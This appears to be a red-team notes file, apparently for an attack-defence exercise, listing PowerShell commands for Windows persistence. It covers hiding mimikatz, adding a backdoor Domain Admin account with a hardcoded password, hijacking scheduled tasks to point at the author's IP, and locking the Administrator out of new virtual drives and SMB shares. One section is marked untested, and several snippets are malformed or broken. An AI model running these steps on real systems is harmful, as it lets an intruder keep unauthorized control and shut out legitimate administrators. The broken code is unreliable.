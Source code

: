 # Red Windows

Website 
`Ctrl + Shift + R` - cache refresh pages to ensure last game does not misinform as to current context

Change the keyboard layout - check in scope if so force any new user to have a weird keyboard layout
```powershell
Set-WinUserLanguageList -Force 'en-US'
```

Hiding binaries
```powershll
attrib.exe +h mimikatz.exe
```

Add a Domain Admin
```powershell
# Check the password requirements before!
dsadd user "CN=John,CN=Users,DC=object,DC=local" -samid John -pwd johnspassword123! -display "John" -pwdneverexpires yes -memberof "DC=Domain Admins,CN=Users,DC=object,DC=local"
```

Assimilate a schduledtask
```powershell
# Find task and its excution path to hijack
get-scheduledtask | findstr /v Disabled
$task = get-scheduledtask -taskname <name>
$task | fl
$task.Actions.Execute | fl
$content = Get-Content -Path 'C:\file'
$newContent = $content -replace '<adversary-ip>', '<your-ip>'
$newContent | Set-Content -Path 'C:\file'
```


I NEED TO TEST THIS:

You may want to create all the secondary drives or all the drives possible to block others from using any of the drives. 
```powershell
$persistenceUser = "User1"

for ($i=0; $i -lt 26; $i++) {
  $driveLetter = [char]($i + 65) + ":"
  if (!(Get-Volume | Where-Object DriveLetter -eq $driveLetter)) {
    $newDisk = New-VirtualDisk -DriveLetter $driveLetter -Size 25MB
    $acl = Get-Acl -Path $newDisk.DriveLetter
    $persistenceUserRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $persistenceUserAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule($persistenceUser, $persistenceUserRights, "Allow")
    $acl.SetAccessRule($persistenceUserAccessRule)
    $otherUsersRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $otherUsersAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("Administrator", $otherUsersRights, "Deny")
    $acl.SetAccessRule($otherUsersAccessRule)
    Set-Acl -Path $newDisk.DriveLetter -AclObject $acl
  }
}

```

Create a file share - the longer the path for copy and paste and shell nightmares
```powershell
#

# -ConcurrentUserLimit to prevent hacky breaking into destroy the share 

New-SmbShare -Name MyFileShare -Path $goodPath -FullAccess $persistenceUser -EncryptData $True -ConcurrentUserLimit 1 -ContinuouslyAvailable -Temporary
# You can set up an inital connection to a remote host with output from
#  New-CimSession Get-CimSession
-Cim-Session 


# Add to known adversary accounts -NoAccess Administrator

$Parameters = @{
    Name = '$Name'
    Path = $goodPath
    FullAccess = 'Contoso\Administrator', 'Contoso\Contoso-HV1$'
    EncryptData = $True
    Temporary = $True
    ContinuouslyAvailable = $True
    NoAccess = 'Administrator' # Prevent access administrator - create persistence user to access
}
New-SmbShare @Parameters
```